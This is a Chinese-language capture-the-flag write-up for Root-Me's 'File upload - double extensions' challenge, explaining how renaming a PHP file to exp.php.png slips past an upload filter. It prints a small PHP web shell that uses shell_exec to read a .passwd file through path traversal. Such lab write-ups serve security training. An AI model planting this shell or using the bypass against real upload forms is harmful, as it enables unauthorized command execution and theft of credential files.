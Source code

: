 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2985/)]

------

题目给出了两个提示：

- 双重后缀绕过（double extensions）
- 目标文件 .passwd 在 web 服务的根路径

上传一个图片测试一下，页面会给出图片的 URL 地址，点开后可以打开原图，猜测这或许是一个可利用点。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/01.png)

又从给出的 URL 地址知道，上传的文件距离 web 服务根目录的位置，因此可以构造一个路径穿越的 payloads 文件，文件名为 `exp.php`：

```php
<?php
	// exp.php.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

但因为上传会检测文件后缀，无法直接上传。把文件更名为 `exp.php.png` 尝试绕过检测机制，上传成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/02.png)

上传成功后，打开这个伪造的图片文件，发现它被作为 php 文件解析了（应该是 web 设置的问题），成功获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
